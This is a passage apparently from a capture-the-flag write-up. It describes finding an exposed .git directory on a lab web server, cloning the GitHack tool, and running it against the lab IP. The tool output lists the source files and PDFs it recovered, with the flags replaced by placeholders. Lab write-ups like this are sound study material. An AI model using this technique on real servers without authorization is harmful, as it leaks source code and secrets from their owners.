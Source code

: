 On the enumerate section there's a <font color="#ffc000">|_  /.git/HEAD: Git</font>  folder. Accessing the directory gives the 403 status.

Hidden directories, left accidentally (or not) on the server, might be a very valuable source of sensitive data leaks. More info https://github.com/bl4de/research/tree/master/hidden_directories_leaks#hidden-directories-and-files-as-a-source-of-sensitive-information-about-web-application.


## Install the exploit.
`$ git clone https://github.com/lijiejie/GitHack.git` 

Run the exploit.
`$ python3 GitHack.py http://10.10.25.126/.git/` 

[+] Download and parse index file ...
[+] CTX_WSUSpect_White_Paper.pdf
[+] Context_Red_Teaming_Guide.pdf
[+] Context_White_Paper_Pen_Test_101.pdf
[+] Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf
[+] Glibc_Adventures-The_Forgotten_Chunks.pdf
[+] api.php
[[APK flag]]
[[GIT flag]]
[[WEBAPP flag]]
[+] functions.php
[+] home.php
[+] index.php
[+] info.php
[OK] home.php
[OK] functions.php
[OK] info.php
[OK] api.php
[OK] index.php
[OK] Context_White_Paper_Pen_Test_101.pdf
[OK] Context_Red_Teaming_Guide.pdf
[OK] Glibc_Adventures-The_Forgotten_Chunks.pdf
[OK] CTX_WSUSpect_White_Paper.pdf
[OK] Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf

[[Web flag]]
